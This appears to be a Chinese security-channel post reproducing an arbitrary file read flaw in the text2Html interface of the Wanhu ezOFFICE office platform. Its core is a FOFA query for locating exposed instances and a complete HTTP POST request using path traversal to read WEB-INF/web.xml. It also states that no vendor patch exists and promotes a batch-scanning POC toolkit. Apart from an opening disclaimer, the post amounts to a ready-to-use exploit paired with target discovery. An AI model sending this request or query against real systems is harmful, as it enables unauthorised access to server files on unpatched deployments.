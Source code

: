 #  万户协同办公平台ezoffice text2Html接口存在任意文件读取漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-25 13:53  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 万户协同办公平台ezoffice简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
万户ezOFFICE集团版协同平台以工作流程、知识管理、沟通交流和辅助办公四大核心应用  
## 2.漏洞描述  
  
万户ezOFFICE协同管理平台是一个综合信息基础应用平台。 万户协同办公平台ezoffice text2Html接口存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
万户ezOFFICE  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avPDzrFKSldAM2bHo9ZPAQhMrBJo0tep1mzlxnPicXSRexfHDZIsriaTjaA/640?wx_fmt=jpeg&from=appmsg "null")  
  
万户协同办公平台ezoffice text2Html接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="万户网络-ezOFFICE"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/defaultroot/convertFile/text2Html.controller  
  
漏洞数据包：  
```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Length: 63
Content-Type: application/x-www-form-urlencoded

saveFileName=123456/../../../../WEB-INF/web.xml&moduleName=html
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avPwkdymqeX1p4tHhsulibLQ4IHThczQbdkp7qrTKfNjxQOFQNNrUF52Fg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avPPicUNRibuTSiboo584VaO2LyRRdW7ugVw13h6pjHvKJDL1z45HTK8jzaQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avPiaZZm392wCBbmGQCxyeEajJWu6Kt2SWu2lXAZae3vH7gOsyb76rmicYg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avP5qiaeHic2GlXf6GoFdT1MShh5cCPheEG4yZZqYjgAAOSxB6JWJeKErJA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avPDtr2f3TJElLCvia9Zx1Mxic6wFAdCuTVAwgne831jkbjyTZ4o7xoYBmA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aoeb6HEJFrqN8wo8iaM5avP0KpHu0vzyvAOuR9jZB4t0TMV1Zaz8ibNdhXyv8gK5ibvtR6B3fdEr1WQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修补方案，请关注厂商主页及时更新： http://www.whir.net  
## 8.往期回顾  
  
[Edusoho网络课堂cms存在任意文件读取漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485379&idx=1&sn=cad3f569bd587a121cc02e29c1307a9e&chksm=974b8ac4a03c03d22e87ff77fe6efdd4d92264c555627fec752cde1c8ea4cc46f2b255088ec0&scene=21#wechat_redirect)  
  
  
[WordPress的Bricks主题存在远程命令执行漏洞CVE-2024-25600 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485348&idx=1&sn=f8fa0576b9bb01bd97a1b95ad844e70d&chksm=974b8aa3a03c03b5ed99651d783895f6110a653c7af1181b6e18dea8da26327281fe1d7fd17e&scene=21#wechat_redirect)  
  
  
  
  
